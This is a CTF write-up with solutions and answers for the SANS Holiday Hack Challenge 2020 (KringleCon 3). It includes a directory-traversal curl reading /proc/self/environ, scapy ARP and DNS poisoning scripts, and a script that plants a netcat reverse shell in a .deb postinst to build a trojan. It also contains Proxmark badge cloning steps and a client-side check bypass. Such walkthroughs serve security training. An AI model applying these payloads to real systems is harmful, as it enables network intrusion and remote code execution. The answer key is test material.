

SANS Holiday Hack Challenge 2020 (KringleCon 3) Write-up
Holiday Hack Challenge is a CTF challenge organized by SANS and Counter Hack during Christmas each year. This year the CTF was named “KringleCon 3: French Hens”. It had total 12 objectives and 12 terminals.
Those 12 objectives tested hacking skillsets using Python, Javascript, Network security, Cryptography etc.
As you progressed, the difficulty level of the objectives increased.
It was a mind-numbing and awesome experience to complete all those objectives.
Below is the write-up of those objectives including the answers.


All Answers
| Objective | Answer |
|---|---|
| Objective 1: Uncover Santa’s Gift List | Proxmark |
| Objective 2: Investigate the S3 bucket | North Pole: The Frostiest Place on Earth |
| Objective 3: Point-of-sale Password Recovery | santapass |
| Objective 4: Operate the Santavator | No answer. |
| This needed to be solved using Javascript by manipulating the position of objects. | |
| Objective 5 : Open HID Block | No answer. |
| This needed to be solved using the Proxmark CLI. | |
| Objective 6: Splunk Challenge | |
| Training Question 1 | 13 |
| Objective 6: Splunk Challenge | |
| Training Question 2 | t1059.003-main t1059.003-win |
| Objective 6: Splunk Challenge | |
| Training Question 3 | HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography |
| Objective 6: Splunk Challenge | |
| Training Question 4 | 2020-11-30T17:44:15Z |
| Objective 6: Splunk Challenge | |
| Training Question 5 | 3648 |
| Objective 6: Splunk Challenge | |
| Training Question 6 | quser |
| Objective 6: Splunk Challenge | |
| Training Question 7 | 55FCEEBB21270D9249E86F4B9DC7AA60 |
| Objective 6: Splunk Challenge | |
| The challenge question | The Lollipop Guild |
| CAN Bus Problem | |
| This is was the prerequisite for | |
| Objective 7 : Solve the Sleigh’s CAN-D-BUS Problem | 122520 |
| Objective 8: Broken Tag Generator | JackFrostWasHere |
| Objective 9: ARP Shenanigans | Tanta Kringle |
| Objective 10: Defeat Fingerprint Sensor | No answer. |
| This needed bypassing the "Santa" check using Javascript and Fiddler | |
| Objective 11a): Naughty/Nice List with Blockchain Investigation Part | 57066318F32F729D |
| Objective 11b): Naughty/Nice List with Blockchain Investigation Part 2 | fff054f33c2134e0230efb29dad515064ac97aa8c68d33c58c01213a0d408afb |
Objective 1 : Uncover Santa's Gift List
There is a photo of Santa's Desk on that billboard with his personal gift list. What gift is Santa planning on getting Josh Wright for the holidays? Talk to Jingle Ringford at the bottom of the mountain for advice.
Answer
Proxmark
Process
1) Downloaded the photograph.
2) Cropped the photo with only the gift list.
3) Installed Gimp
4) Used Filter > Distort > Whirl and Pinch
5) Unwirl to find the answer
Original billboard image :

Unwirled Image to find the item :

Objective 2: Investigate the S3 bucket
When you unwrap the over-wrapped file, what text string is inside the package? Talk to Shinny Upatree in front of the castle for hints on this challenge.
Answer
North Pole: The Frostiest Place on Earth
Process
Using bucket_finder.rb s3 bucket "wrapper3000" was downloaded and extracted.
This folder has a file named 'package' which has base64 encoded string
Below is the process of unwrapping process of ‘package’ file all the way to the text file:
wrapper3000/package > base64 decode > zip file > .bz2 file > .tar file > .xxd file > .xz file > .z file > ASCII text file.
#!/bin/bash -x
# Author : Ashish Gupta
# Below will download the s3 bucket and will keep unwap till we find a text file
# The downloaded and extracted folder "wrapper" has this file named 'package' which has base64 encoded string
# Unrapping process :
# wrapper3000/package > base64 decode > zip file > .bz2 file > .tar file > .xxd file > .xz file > .z file > ASCII text file
#
# Assuming we are on home, this will show the items TIPS bucket\_finder
ls
# Go to bucket\_finder
cd bucket\_finder/
# Check what is currently in the wordlist
cat wordlist
# Append wrapper3000 to the wordlist
echo wrapper3000 >> wordlist
# Check to make sure wrapper3000 is appended to the wordlist
cat wordlist
# Search for s3 buckets with names noted in the 'wordlist' file and if found download them
# Below will download the file named 'package'
./bucket\_finder.rb wordlist -d
# change to downloaded wrapper3000/ directory
cd wrapper3000
# Check to make sure a file named 'package' exists
ls
# What kind of file is 'package'
# Below will show "package: ASCII text, with very long lines"
file package
# May be a base64 file. decode it to a file named 'myfile'
cat package | base64 -d > myfile
# What kind of file is myfile
# Below will show "myfile: Zip archive data, at least v1.0 to extract"
# So, myfile is a zip. extract using unzip.
# Below will extract to a .bz2 file printing the below
#Archive: myfile
# extracting: package.txt.Z.xz.xxd.tar.bz2
unzip myfile
# What kind of file is "package.txt.Z.xz.xxd.tar.bz2"
# Below will show a bz2 file named "package.txt.Z.xz.xxd.tar.bz2" printing the below :
# package.txt.Z.xz.xxd.tar.bz2: bzip2 compressed data, block size = 900k
file package.txt.Z.xz.xxd.tar.bz2
# Its bz2 file, extract using bzip2
# Below will extract the bz2 file to another file named "package.txt.Z.xz.xxd.tar"
bzip2 -d package.txt.Z.xz.xxd.tar.bz2
# We have now package.txt.Z.xz.xxd.tar
# What kind of file is "package.txt.Z.xz.xxd.tar"
# below will show .tar printing below :
# package.txt.Z.xz.xxd.tar: POSIX tar archive
file package.txt.Z.xz.xxd.tar
# Extract the tar file. It will extract to package.txt.Z.xz.xxd
tar -xvf package.txt.Z.xz.xxd.tar
# What kind of file is "package.txt.Z.xz.xxd"
# package.txt.Z.xz.xxd: ASCII text
file package.txt.Z.xz.xxd
# use xxd on this to extract to test2.xz
xxd -r package.txt.Z.xz.xxd test2.xz
# What kind of file is "test2.xz"
# test2.xz: XZ compressed data
file test2.xz
# uncompress test2.xz using xz which will extract the file named "test2"
unxz test2.xz
# rename file test2 to test2.z
mv test2 test2.z
# uncompress test2.z. this will create a file named "test2"
uncompress test2.z
# What kind of file is "test2"
# test2: ASCII text
file test2
# Print the contents of this text file
# Output would show "North Pole: The Frostiest Place on Earth"
cat test2
Objective 3: Point-of-sale Password Recovery
Help Sugarplum Mary in the Courtyard find the supervisor password for the point-of-sale terminal. What's the password?
Answer : santapass
Process :
Step 1: Extract the santa-shop.exe using 7zip. You see the ASAR file.

Step 2: Extract the source code from ASAR application and find the password in main.js

Objective 4: Operate the Santavator
Talk to Pepper Minstix in the entryway to get some hints about the Santavator.

Process
Use the chrome JS console to rotate the green light and candycane so we can get lights to all the outlets.
a = document.querySelector("body > div.box-parent > div.item.light.greenlight") a.style.transform = "rotate(-45deg)" candy = document.querySelector("body > div.box-parent > div.item.item.candycane") candy.style.transform="rotate(-10deg)"
Objective 5 : Open HID Block
Open the HID lock in the Workshop. Talk to Bushy Evergreen near the talk tracks for hints on this challenge. You may also visit Fitzy Shortstack in the kitchen for tips.
Copy the badge id from elf Bow Ninecandle
Go near Bow Ninecandle in teh "Talks" floor.

Open the Proxmark3 CLI from the "Items" menu

Copy the badge value from Bow Ninecandle using the below command :
lf hid read

The tag id is 2006e22f0e
Use the copied tag id to unlock the door in workshop room
Go to the workshop floor and stand in front of the lock.

Open Proxmark CLI and simulate the tag id "2006e22f0e" of Bow Ninecandle
lf hid sim -r 2006e22f0e
The door is unlocked!!!

When you enter the room you just unlocked, Its all dark with light at the end.
You approach it......

and you become Santa!!!
This was a magical moment for me!

Objective 6: Splunk Challenge
Access the Splunk terminal in the Great Room. What is the name of the adversary group that Santa feared would attack KringleCon?
Splunk Training question 1
How many distinct MITRE ATT&CK techniques did Alice emulate?
Answer : 13
Process :
Execute the below Splunk query :
| tstats count where index=t* by index
| eval results=split(index,"-")
| eval without-dash=mvindex(results,0)
| table without-dash
| rex field=without-dash mode=sed "s/\..*$//"
| dedup without-dash
OR
| tstats count where index=* by index
| search index=T*-win OR T*-main
| rex field=index "(?

Splunk Training Question 2 :
What are the names of the two indexes that contain the results of emulating Enterprise ATT&CK technique 1059.003? (Put them in alphabetical order and separate them with a space)
Answer : t1059.003-main t1059.003-win
Process :
Execute the below Splunk query:
index=t1059.003* | table index | dedup index | sort index
Output :

Splunk Training Question 3 :
One technique that Santa had us simulate deals with 'system information discovery'. What is the full name of the registry key that is queried to determine the MachineGuid?
Answer: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography
Process :
"System Information Discovery" is technique T1082
https://attack.mitre.org/techniques/T1082/
Note per the question, a registry key was queried, so execute the below Splunk query on the all the indexes for the technique t1082 for “reg” to get the registry key which was queried, since the “MachineGuid” needed to be determined, It must have been part of the query, so included that as well in the Splunk query:
index=t1082* reg machineguid CommandLine!='' | table CommandLine
Output :

Splunk Training Question 4
According to events recorded by the Splunk Attack Range, when was the first OSTAP related atomic test executed? (Please provide the alphanumeric UTC timestamp.)
Answer: 2020-11-30T17:44:15Z
Process :
1) Go to the Atomic test GitHub page
https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/index.md
2) Look for "OSTAP".

3) Execute the below Splunk query on the “attack” index to get the 1st OSAT related text executed.
index=attack OSTAP | table "Execution Time _UTC" | sort "Execution Time _UTC" asc

Splunk Training Question 5
One Atomic Red Team test executed by the Attack Range makes use of an open-source package authored by frgnca on GitHub. According to Sysmon (Event Code 1) events in Splunk, what was the ProcessId associated with the first use of this component?
Answer : 3648
Process :
1) First look up what projects were authored by frgnca
https://github.com/frgnca

2) Search in the attack index with the above projects one by one and you get a hit on "audio"
index=attack audio
We get a hit on this with technique# T1123

3) Confirmed the T1123 does make use of the project "AudioDeviceCmdlets"
https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1123/T1123.md
4) Now pivot to index for the technique T1123 for the "audio" and the Sysmon as source with TimeCreated as time. Note that “tail 1” is used as the ask is to get the process id associated with the “first use”. “tail 1” will provide the 1st record (1st use) as Splunk returns the search results sorted so that the latest result comes first.
index=t1123* EventCode=1 *audio* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" | tail 1 | table TimeCreated, process_id, CommandLine, *

Splunk Training Question 6
Alice ran a simulation of an attacker abusing Windows registry run keys. This technique leveraged a multi-line batch file that was also used by a few other techniques. What is the final command of this multi-line batch file used as part of this simulation?
Answer : quser
Process :
1) Let’s find which techniques uses the Windows Registry run keys.
Go to https://mitre-attack.github.io/attack-navigator/v3/enterprise/
and search for "run" and "view" the 1st result

Its Technique# T1447
Windows registry run keys
https://attack.mitre.org/techniques/T1547/001/

2) Search index t1547 for the sysmon logs for technique with bat
index=t1547* "*bat*" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" CommandLine!='' | table CommandLine
There are two bat files batstartup.bat (stored local) and Discovery.bat (on Github)
Please click on the image to see the larger version.

The batch file location appears very small in the above screenshot so listing them out below:
1) $env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\batstartup.bat\
2) https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat
Sysmon logs can’t have the source code of the batstartup.bat.
But look at the second one. It’s on GitHub.
https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat
Just go to that URL and the last line of that batch file is “quser”

Splunk Training Question 7 :
According to x509 certificate events captured by Zeek (formerly Bro), what is the serial number of the TLS certificate assigned to the Windows domain controller in the attack range?
Answer : 55FCEEBB21270D9249E86F4B9DC7AA60
Process :
Looking at ALL the technique indices (index=t* ) with source as the zeek x509 logs specifically win-dc:
index=t* *cert* source="/opt/zeek/logs/current/x509.log" certificate.subject=*win-dc* | table certificate.serial, certificate.subject | dedup certificate.serial, certificate.subject

The Splunk challenge question :
What is the name of the adversary group that Santa feared would attack KringleCon?
Answer : The Lollipop Guild
Process :
Gather all the hints!
Alice gave a few hints:

Hint 1:
Alice says the "ciphertext is 7FXjP1lyfKbyDK/MChyf36h7"
Hint 2:
Alice says "We don't care about RFC 7465"
RFC 7465 requires that the TLC clients and servers never negotiate the user of RC4 ciphers when they establish connections.
https://tools.ietf.org/html/rfc7465
So, if they don’t care about RFC 7465, they ignore that RC4 should not be used and still used RC4 ciphers.
This means the encryption method used was RC4.
But encryption needs a key. What that key would be?

Hint 3
Alice says the last one is encrypted using "your favorite phrase"
Santa asks "my favorite phrase?"
Alice says "I can’t believe the Splunk folks put it in their talk"
now, we go and watch the below talk which is in Kringlecon 2020:
Dave Herrald, Adversary Emulation and Automation | KringleCon 2020
Mr. Dave Herrald has the below in the video:
and he says, this is the most important slide you want to take note of if you are preparing for the Splunk challenge within holiday hack challenge 2020:
Stay Frosty
(That might be our encryption key)

Find answer using all the hints:
So, far we have below hints:
a) We have the base64 text 7FXjP1lyfKbyDK/MChyf36h7
b) We know RC4 could potentially be the encryption method
c) We know “Stay Frosty” could potentially be the encryption keys used in RC4
Now we use all the hints to find out the adversary The Lollipop Guild
Open Cyberchef
https://gchq.github.io/CyberChef/
Build the receipe :
1st item:
"From Base64"
input: 7FXjP1lyfKbyDK/MChyf36h7
2nd Item:
"Encryption /Encoding" > RC4
Passphrase: Stay Frosty
Answer: The Lollipop Guild

CAN Bus Problem
Answer : 122520
Process :
When you open the UI, you will see many messages.
Filter out the noise with those all 0's in the message in the Sleigh CAN-D bus.
When you click unlock, there is one message which consistently comes up :
19B#00000F000000
Filter out the other one 19B#0000000F2057. Now, we have consistently 19B#00000F000000 when we click unlock.

Criteria added to filter noise and message for unlock found
Now in the CAN-Bus Investigation terminal, grep for “19B#00000F000000" in the canndump.log and you see the entry 1608926671.122520. This challenge needed the decimal portion of the timestamp and hence the answer is 122520. Please see the below screenshot.

Find the CAN id# in the candump.log; Get the decimal portion of the mssage Id (the answer)
Objective 7: Solve the Sleigh's CAN-D-BUS Problem
Jack Frost is somehow inserting malicious messages onto the sleigh's CAN-D bus. We need you to exclude the malicious messages and no others to fix the sleigh. Visit the NetWars room on the roof and talk to Wunorse Openslae for hints.
Process :
Wunorse Openslae says there is an issue with breaks and doors :

Hints from Wunrose Openslae
CAN ID of doors is 19B
CAN ID of breaks is 080
"Breaks" fix - Exclude all the messages containing FF (larger numbers, greater than decimal 100)
"Doors" fix - Exclude the malicious messages 0F2057

Objective 8: Broken Tag Generator
Help Noel Boetie fix the Tag Generator in the Wrapping Room. What value is in the environment variable GREETZ? Talk to Holly Evergreen in the kitchen for help with this.
Answer : JackFrostWasHere
High level Approach:
Exploit the directory traversal vulnerability in the tag generator application to use the Local File Inclusion (LFI) on the web server running the application and then access the /proc/self/environ which will contain the all the environment variable used by the web server process including the variable named “GREETZ”
Process :
Check if the web app has directory traversal vulnerability
The elf Holly Evergreen thinks there may be an issue with the "file upload" feature :

Hints from Holly Evergreen
When you upload an image in the tag generator, the image is stored with below URL.
https://tag-generator.kringlecastle.com/image?id=
[Please click on the image below to see enlarged image]
{kind=link}
 https://tag-generator.kringlecastle.com/image?id=
https://tag-generator.kringlecastle.com/image?id=
When you upload a non-image file, it gives a below error.
From the error, we understand the below:
- It’s a Ruby on Rails app
- the app.rb resides in /app/lib
- app.rb stores the user uploaded files in /tmp

Error when you upload an image file
Assuming whatever is being uploaded in /temp is being evaluated without any validation, if we can try directory traversal to get the code of app.rb
curl https://tag-generator.kringlecastle.com/image?id=../app/lib/app.rb
../app/lib/app.rb
This means, from the current directory /tmp, go one level up (means root), then app, then lib and then can get app.rb
Now we have the source code of the app.rb :

Use the Local File Inclusion (LSI) to access the environment variables of the process
So, we know this Ruby application has the directory traversal vulnerability
curl https://tag-generator.kringlecastle.com/image?id=../app/lib/app.rb
Under Linux, /proc/self is a dynamic symlink that the kernel provides that points to the process opening it.
e.g., if process 1234 tries to follow /proc/self, it will be looking the same content as /proc/1234
and then proc/self/environ will have all the environment variables for the process.
curl https://tag-generator.kringlecastle.com/image?id=../proc/self/environ | tr '\0' '\n'
This will list all the environment variables including “GREETZ” value of which would be “JackFrostWasHere”

Objective 9: ARP Shenanigans
Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using ARP. Retrieve the document at /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt. Who recused herself from the vote described on the document?
Answer : Tanta Kringle
High level approach :
- Change the ARP cache of target machine (10.6.6.35) so all requests come to our host (ARP Poisoning) and we respond to DNS requests (DNS poisoning).
- Build a Linux trojan on a deb file (which 10.6.6.35 is constantly requesting). This Linux trojan when executed on 10.6.6.35 will open a reverse shell of 10.6.6.35 on our host.
- With shell access on the 10.6.6.35, we get access to the file /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt which will have the name who recused herself from the vote described on the document.
Below screenshot shows how we determined the machines.

Nslookup provides more information on those 3 hosts.

The Process :
ARP Poisoning:
Spoof the ARP response going to 10.6.6.35 with our MAC address so all requests (including DNS requests) from 10.6.6.35 come to our host (ARP Poisoning). Change the /script/arp_resp.py accordingly.
DNS Poisoning :
Since we can intercept all the DNS requests coming from 10.6.6.35, we can respond to those DNS responses (DNS poisoning). Change the /script/dns_resp.py accordingly.
Create a Linux trojan with netcat reverse shell payload for port 4444 in it
10.6.6.35 requests for a specific DEB file (pub/jfrost/backdoor/suriv_amd64.deb) over HTTP.
We can create a Linux trojan with any DEB file renamed as above deb file which will include a netcat reverse shell.
The Linux trojan will be placed in the same directory structure as requested by 10.6.6.35 [pub/jfrost/backdoor/suriv_amd64.deb]
Run Python web server and netcat listening on port 4444
Run the python web server on the root.
Run netcat listening on our host on port 4444.

Showing ARP Poisoning
Changes to the script/arp_resp.py :

Changes to scripts/arp_resp.py
DNS Poisoning diagram :
Please click on the image to see the enlarged view :

DNS poisoning
Changes to scripts/dns_resp.py

Changes to scripts/dns_resp.py
Creating the linux trojan :
The debs/ folder has a number of deb files. We choose netcat-traditional_1.10-41.1ubuntu1_amd64.deb
Add netcat reverse shell script to this deb file :
nc 10.6.0.3 4444 -e /bin/sh
Above will executed when the deb file is requested and executed on 10.6.6.35. This will give a reverse shell on 10.6.6.35 to out host 10.6.0.3 on 4444. Ref : http://www.wannescolman.be/?p=98
Putting it all together :
See the below screenshot the processes executed in the below order – numbered in the below screenshot.
0 : netcat -nlvp 4444
1 : tcpdump -i eth0 -w dump2.pcap
2 : python3 -m http.server 80
3 : python3 scripts/dns_resp.py
4 : python3 scripts/arp_resp.py
5 : We get reverse shell on 10.6.6.35
Once we get the reverse shell on 10.6.0.3, we can get the file NORTH_POLE_Land_Use_Board_Meeting_Minutes and found who recused hersef from vote.
It was Tara Kringle!

All Script files in the zip file (please remove the .txt from files after extraction):
arp_resp.py (with changes) for ARP poisoning
!/usr/bin/python3
from scapy.all import * import netifaces as ni import uuid
Our eth0 ip
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
Our eth0 mac address
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1]) def handle_arp_packets(packet): # if arp request, then we need to fill this out to send back our mac as the response if ARP in packet and packet[ARP].op == 1: ether_resp = Ether(dst=packet[ARP].hwsrc, type=0x806, src=macaddr) arp_response = ARP(pdst=packet[Ether].psrc) arp_response.op = 'is-at' arp_response.plen = 4 arp_response.hwlen = 6 arp_response.ptype = 0x800 arp_response.hwtype = 0x1 arp_response.hwsrc = macaddr arp_response.psrc = packet[ARP].pdst arp_response.hwdst = packet[ARP].hwsrc arp_response.pdst = packet[ARP].psrc response = ether_resp/arp_response sendp(response, iface="eth0") def main(): # We only want arp requests berkeley_packet_filter = "(arp[6:2] = 1)" # sniffing for one packet that will be sent to a function, while storing none sniff(filter=berkeley_packet_filter, prn=handle_arp_packets, store=0, count=1) if __name__ == "__main__": main()
dns_resp (with changes) for DNS poisoning :
!/usr/bin/python3
from scapy.all import * import netifaces as ni import uuid
Our eth0 IP
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
Our Mac Addr
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.6.53"
def handle_dns_request(packet):
# Need to change mac addresses, Ip Addresses, and ports below.
# We also need
eth = Ether(src=packet.dst, dst=packet.src)
ip = IP(dst=packet[IP].src, src=packet[IP].dst)
udp = UDP(dport=packet[UDP].sport, sport=packet[UDP].dport)
dns = DNS(
# MISSING DNS RESPONSE LAYER VALUES
id=packet[DNS].id,
qr=1,
ancount=1,
aa=1,
qd=packet[DNS].qd,
an=DNSRR(rrname=packet[DNS].qd.qname, ttl=10, rdata=ipaddr)
)
dns_response = eth / ip / udp / dns
sendp(dns_response, iface="eth0")
def main():
berkeley_packet_filter = " and ".join( [
"udp dst port 53", # dns
"udp[10] & 0x80 = 0", # dns request
"dst host {}".format(ipaddr_we_arp_spoofed), # destination ip we had spoofed (not our real ip)
"ether dst host {}".format(macaddr) # our macaddress since we spoofed the ip to our mac
] )
# sniff the eth0 int without storing packets in memory and stopping after one dns request
sniff(filter=berkeley_packet_filter, prn=handle_dns_request, store=0, iface="eth0", count=1)
if __name__ == "__main__":
main()
build_linux_trojan.sh [to create a Linux trojan with a .deb file]
!/bin/bash
cd ~/ mkdir build-payload cp debs/netcat-traditional_1.10-41.1ubuntu1_amd64.deb build-payload/ cd build-payload mkdir work echo "Extracting netcat-traditional_1.10-41.1ubuntu1_amd64.deb to work/ folder" dpkg -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb work mkdir work/DEBIAN ar -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb echo "Extracting the control and postinst file from netcat-traditional_1.10-41.1ubuntu1_amd64.deb and " tar -xf control.tar.xz ./control tar -xf control.tar.xz ./postinst echo "stuffing nc 10.6.6.53 4444 -e /bin/sh to the postinst file" echo "nc 10.6.0.3 4444 -e /bin/sh" >> postinst # thats my IP address which I want 10.6.6.35 to connect to get the reverse shell on this host mv control work/DEBIAN/ mv postinst work/DEBIAN/ cd ~/ echo "buiding the deb package" dpkg-deb --build build-payload/work/ cd ~/ mkdir -p pub/jfrost/backdoor echo "moving the work.deb to pub/jfrost/backdoor/suriv_amd64.deb" mv build-payload/work.deb pub/jfrost/backdoor/suriv_amd64.deb echo "pub/jfrost/backdoor/suriv_amd64.deb is ready!"
Objective 10: Defeat Fingerprint Sensor
Bypass the Santavator fingerprint sensor. Enter Santa’s office without Santa’s fingerprint.
High level details :
- When you click the elevator panel, a special JavaScript file named “app.js” get loaded which checks for a flag named “besanta” for successful scan of the fingerprint.
- We host that "app.js" file in our local with the "besanta" check removed and then load that file using Fiddler instead of server app.js.
- With "besanta" check removed, you bypass the fingerprint check.
Process :
Below actions are as me (not Santa).
If you right click on the Scan Fingerprint and "Inspect"

User Chrome's inspect to look at the javascript behind the "Scan fingerprint" image
You will see the that fingerprint image is actually a DIV with class name "print-cover" with click action handler of which is in app.js.

View source showing the click handler will execute a function in https://elevator.kringlecastle.com/app.js
Now look at the event handler in the app.js.
In addition to the powered, it checks if the token named "besanta".
If It’s there, it will allow to go to Santa's office. If not, it will play error sound.

Click handler of "Scan fingerprint" image
Now, what we can do is to make a copy of this app.js, remove that && hasToken('besanta') condition.
Then host that in local IIS server (like http://localhost/app.js)

Check for "besanta" removed in local app.js
Open Fiddler and apply filter for app.js so when you click on the scan fingerprint image only that URL gets captured.
https://elevator.kringlecastle.com/app.js
- Traffic to https://elevator.kringlecatsle.com/app.js is captured.
- Filter applied
- Filter to "show if URL contains"
- Filter value "app.js"

Save the contents of https://elevator.kringlecastle.com/app.js to a file named app.js and py the file in local IIS server e.g. c:\inetpub\wwwroot so the file could be accessble on https://localhost/app.js
See the below screenshot (steps are numbered):
Go to Fiddler > AutoResponder (1) > Enable Rules (2) > Add Rule (3) > Add https://localhost/app.js (4) > Save (5)

This will replace the has Token app.js file from sever https://elevator.kringlecastle.com/app.js (with 'besanta' check)

Now when you click on the fingerprint scanner, you will be able to get into Santa's office.
Objective 11a): Naughty/Nice List with Blockchain Investigation Part 1
Even though the chunk of the blockchain that you have ends with block 129996, can you predict the nonce for block 130000? Talk to Tangle Coalbox in the Speaker UNpreparedness Room for tips on prediction and Tinsel Upatree for more tips and tools. (Enter just the 16-character hex value of the nonce)
Answer : 57066318F32F729D
High-level approach :
In Santa's office, Tinsel Upatree has the Blockchain.dat and the zip file containing the python script
The naughty_nice.py verifies the block chain up to block# 129996. So, we have nonce up to 12996.
If we get the last 624 nonces with last one being of block# 12996, we can use the MT19937Predictor to get the nonce of 12997, 12998, 12999 and finally 13000 which is needed by this objective.
Details :
The zip file named OfficialNaughtyNiceBlockchainEducationPack.zip has following contents.
We put the Blockchain.dat to examine it using the naughty_nice.py

Contents of "OfficialNaughtyNiceBlockchainEducationPack.zip"
The naughty_nice.py was changed to get all the last 624 nonces of the blockchain.
Then those last 624 nonces were fed into the MT19937Predictor() to get nonce for block# 12997
The nonce of 12997 was included in the list to get the nonce for block# 12998.
The nonce of 12998 was included in the list to get the nonce for block# 12999.
The nonce of 12999 was included in the list to get the nonce for block# 13000.
For changes in the naughty_nice.py, compare the naughty_nice_original.py and naughty_nice.py.

Changes in "naughty_nice.py"

Running naughty_nice.py. The nonce for block#13000 is 6270808489970332317
Converting to hexadecimal It would be 57066318F32F729D and that’s the answer.

Convering decimal to hex
The below zip file contains the changed naughty_nice.py (please remove the .txt after extraction)
naughty_nice.py
#!/usr/bin/env python3
'''
So, you want to work with the naughty/nice blockchain?
Welcome!
This python module is your first step in that process. It will introduce you to how the Naughty/Nice
blockchain is structured and how we at the North Pole use blockchain technology. The North Pole
has been using blockchain technology since Santa first invented it back in the 1960's. (Jolly
prankster that he is, Santa posted a white paper on the Internet that he wrote under a pseudonym
describing a non-Naughty/Nice application of blockchains a dozen or so years back. It caused quite
a stir...)
Important note: This module will NOT allow you to add content to the Official Naughty/Nice Blockchain!
That can only be done through the Official Naughty/Nice Website, which passes new blocks to the Official
Santa Signature System (OS3) that applies a digital signature to the content of each block before it is
added to the chain. Only blocks whose contents have been digitally signed by that system are placed on
the Naughty/Nice blockchain.
Note: If you're authorized to use the Official Naughty/Nice website, you will have been given a login and
password for that site after completing your training as a part of Elf University's "Assessing and
Evaluating Human Behavior for Naughty/Niceness" Curriculum.
This code is used to introduce how blocks/chains are created and allow you to view and/or validate
portions (or the entirety) of the Official Naughty/Nice Blockchain.
A blockchain, while a part of the whole cryptocurrency "fad" that a certain pseudonym-packing North Pole
resident appears to have begun, are certainly not limited to that use. A blockchain can be used anywhere
that a record of information or transactions need to be maintained in a way that cannot be altered. And
really, what information is more important (and necessarily unalterable) than acts of Naughty/Niceness?
A blockchain works by linking each record together with the previous record. Each block's data contains
a cryptographic hash of the previous block's data. Because a block cannot be altered without altering
the cryptographic hash of its contents, any alteration of the data within a block will be immediately
evident, because every following block will no longer be valid.
In addition to this built-in property of a blockchain, the Official Naughty/Nice Blockchain has a few
other safeguards. The cryptographic hash of each block is signed using the Official Santa Signature
System (OS3). Currently, the Official Naughty/Nice Blockchain uses MD5 as its hashing algorithm, but
plans are in place to move to SHA256 in 2021. This update is part of a phased process to modernize
the blockchain code. In 2019, the entire blockchain system was ported from the original COBOL code to
Python3. Because of concerns about hash collisions in MD5, in the new Python3 code, a 64-bit random
"nonce" was added to the beginning of each block at the time of creation.
This module represents a portion of the most current blockchain codebase. It consists of two classes,
one for the creation of blocks, called Block(), and one for the creation, examination, and verification of
chains of blocks, called Chain().
The following is an overview of the functionality provided by these classes:
The Chain() class is where most blockchain work is performed. It is designed to be as "block-agnostic"
as possible, so it can be used with blocks that hold different types of data. To use a different type
of block, you simply replace (or subclass) the Block() class. For this to work, there are several
functions that MUST be supplied by the Block() class. Let's take a look at those.
The Block() class MUST supply the following functions, used by the Chain() class:
create\_genesis\_block() - This creates a very special block used at the beginning of the blockchain,
and known as the "genesis" block. Because it has no previous block to reference it is, by definition,
always considered valid. This block uses an agreed-upon, fake previous hash value.
verify\_types() - Because the Chain() class is block-agnostic, it needs the Block() class to validate
that a block contains valid data. This function returns True or False.
block\_data() - a function that returns a representation of all of the data in the block that is to
be hashed and signed. The data is returned as a Python3 bytes object.
full\_block\_data() - a function that returns a representation of the entire block, including any
hashes and signatures. A hash of this data is what is used as the "previous hash" value in the
subsequent block. This data is returned as a Python3 bytes object. This function is also used
when saving either the entire blockchain to a file, or a single block to a file
load\_a\_block(\[filehandle\]) - this function takes a filehandle and returns a block at a time for
addition to the block chain. This function DOES NOT verify blocks. This function throws a
Value\_Error exception when it either encounters the end of the file or unparsable data.
The Naughty/Nice Block() class also defines a utility function:
dump\_doc(\[document number\]) - this will dump the indicated supporting document to a file named
as <block\_index>.<data\_type\_extension>. Note: this function will overwrite any existing file
with that name, so if there are multiple documents (there can be up to 9) of the same type
